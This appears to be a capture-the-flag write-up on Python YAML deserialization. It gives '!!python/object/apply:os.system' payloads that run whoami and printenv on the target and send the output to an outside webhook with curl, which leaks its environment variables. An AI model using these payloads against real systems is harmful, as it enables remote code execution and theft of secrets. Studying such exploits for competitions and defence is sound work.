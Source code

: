 # PYTHON DESERILAZATION
Serialization in Python refers to the process of converting a Python object into a format that can be easily stored or transmitted. This format is typically a string or a byte stream. Deserialization, on the other hand, is the process of converting the serialized data back into a Python object.

Serialization allows you to save the state of an object and recreate it later or send it over a network. It is useful for tasks like saving data to a file, transferring data between different systems, or storing data in a database.

Python provides built-in modules like pickle, json, and yaml to perform serialization and deserialization. These modules handle the conversion process automatically, allowing you to easily save and restore the state of objects.

By using serialization, you can persist data, transfer it across different platforms or systems, and reconstruct it as needed, making it a valuable tool in various applications.

Shortly the system will convert the input from object become the format that can be transmitted. Hence the system will execute it. 

So the purpose of this attack is to execute os command such as id, whoami and etc using python deserialization. 

    ![image](https://github.com/aminnazri00/AturKreatif-2023/assets/72528347/f8890797-5d2b-4bde-95a1-289d653628f7)


1. Open page
2. Insert input using yaml format

      ![image](https://github.com/aminnazri00/AturKreatif-2023/assets/72528347/1518a928-3a9f-42fd-9466-d484a9db802e)

3. The system convert yaml format into json

      ![image](https://github.com/aminnazri00/AturKreatif-2023/assets/72528347/0df3e047-c654-44d6-a3eb-f90332a8adda)


```
!!python/object/apply:os.system ["whoami | curl -X POST -d @- https://webhook.site/<your-web-hook-id>"]
```

> The os.system function in Python is used to execute shell commands. It takes a command string as an argument and runs it in a subshell. The os.system function is part of the Python os module, which provides a way to interact with the operating system.

> In the provided YAML representation, the os.system function is being invoked with a single argument, which is a list containing the command string "whoami | curl -X POST -d @- https://webhook.site/<your-web-hook-id>". This command string combines the whoami command, which retrieves the current username, with a curl command that performs an HTTP POST request to the specified URL, sending the output of whoami as the request payload.

> In summary, the YAML representation you provided is instructing the creation of a Python object using the os.system function, which will execute the specified shell command when invoked.

6. The question mention that the flag is located inside the environment variable
```
  !!python/object/apply:os.system ["printenv  | curl -X POST -d @- https://webhook.site/9a324546-0842-4505-9f66-99f8e60e0ed2"]
```
  
![image](https://github.com/aminnazri00/AturKreatif-2023/assets/72528347/ce0c82a0-66ff-48b7-b72f-24dca2f17e78)
